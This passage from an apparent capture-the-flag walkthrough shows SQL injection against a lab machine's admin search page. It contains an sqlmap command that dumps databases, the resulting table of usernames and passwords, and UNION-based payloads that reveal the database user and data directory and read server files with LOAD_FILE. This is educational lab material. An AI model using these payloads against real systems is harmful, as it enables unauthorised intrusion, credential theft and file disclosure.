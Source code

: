 Trying another command, tells that only the `dir` command is allowed:
```
It's only allowed to use the dir command
```

When appending a single quote on the _user search_ feature, it says that there is an error with the the **SQL** syntax, so there is a **SQL Injection vulnerability** on this.

### SQL Injection

Lets copy the request with **Burpsuite** to a file and try a **Union SQL Injection** with **SQLmap**:
```
sqlmap -r search_user.req --dbms mysql --technique=U --batch --dump
```

It dumps the databases and one of them has usernames and passwords:
```
+----+------------------+----------+
| id | password         | username |
+----+------------------+----------+
| 1  | Hopelessromantic | admin    |
| 2  | gio              | gio      |
| 3  | Pass123          | testuser |
+----+------------------+----------+
```

The SQL injection query looks like this and displays anything at position 1 and 2:
```
POST /admin/search.php
(...)
term=2' union select 1,2,3-- -
```

Commands with **MySQL** work and can display the name of the user for example with `user()`:
```
term=2' union select 1,user(),3-- -
```
```
root@localhost
```

With these commands, it is possible to find out more information and read files from the system.

Getting the directory path of the database:
```
term=2' union select 1,@@datadir,3-- -
```
```
C:\xampp\mysql\data\
```

Getting source code of _backdoorchecker.php_:
```
term=2' union select 1,LOAD_FILE('c:/xampp/htdocs/admin/backdoorchecker.php'),3-- -
```

Interesting findings in the source code:
- It includes another PHP file called _link.php_
